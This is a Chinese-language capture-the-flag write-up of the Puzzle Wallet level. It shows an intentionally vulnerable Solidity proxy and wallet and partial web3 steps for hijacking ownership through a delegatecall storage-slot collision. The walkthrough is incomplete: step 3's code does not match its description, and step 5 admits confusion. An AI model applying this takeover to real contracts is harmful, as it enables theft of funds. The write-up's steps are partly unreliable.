 ### 第二十四题 Puzzle Wallet
### 题目
劫持这个钱包，去成为代理的管理员
### 提示
- 了解委托调用的工作原理以及执行调用时 msg.sender 和 msg.value 的行为方式。
- 了解代理模式及其处理存储变量的方式。
### 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;
// 导入可升级代理合约
import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    // 待定管理员地址
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }
    // 仅允许管理员调用的修饰符
    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }
    //提议新的管理员
    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }
     // 批准新的管理员，仅管理员可调用
    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }
    // 升级到新的实现合约，仅管理员可调用
    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    //白名单
    mapping(address => bool) public whitelisted;
    //账户余额
    mapping(address => uint256) public balances;
    // 初始化函数，设置最大余额和所有者地址
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
     // 仅允许白名单地址调用的修饰符
    modifier onlyWhitelisted() {
        // 检查调用者是否在白名单中
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }
    // 设置最大余额，仅白名单地址可调用
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }
     // 添加地址到白名单，仅所有者可调用
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }
    // 存款函数，仅白名单地址可调用
    function deposit() external payable onlyWhitelisted {
        // 确保存款后余额不超过最大余额
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }
    // 执行交易函数，仅白名单地址可调用
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }
    // 多重调用函数，仅白名单地址可调用
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;// 标记是否调用过存款函数
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            //assembly：这是一个内联汇编块，用于直接操作EVM（以太坊虚拟机）中的数据。
            //mload(add(_data, 32))：mload 是一个内联汇编指令，用于从内存中加载数据。add(_data, 32) 计算 _data 的偏移量，加上32字节（因为前32字节是数据长度），从而指向实际的数据部分。最终，这行代码从 _data 的第32字节开始加载数据，即提取函数选择器。
            assembly {
                selector := mload(add(_data, 32))
            }
            //检查提取的函数选择器是否等于 deposit 函数的选择器。
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```
### 解题思路&过程
1. approveNewAdmin有onlyAdmin限制,addToWhitelist又要求msg.sender必须等于owner,唯一可以调用的函数是proposeNewAdmin提议新的管理员 ，pendingAdmin存储在solt0中，如果PuzzleWallet使用delegatecall调用proposeNewAdmin，由于delegatecall的特性，它实际上修改的是owner，于是就可以控制第二个合约。
2. 具体方法如下
``functionSignature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [{type: 'address',name: '_newAdmin'}]
    }
params = [player]
data = web3.eth.abi.encodeFunctionCall(functionSignature, params)
await web3.eth.sendTransaction({from: player, to: instance, data})
//检查一下owner
await contract.owner()==player``
3. 通过上述调用我们已经成为PuzzleWallet合约的owner，下一步是添加自己的地址进whitelisted
``await contract.proposeNewAdmin(player)``
4. 检查是否是第一次调用deposit函数
``if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;``
            }
5. 没看懂.......
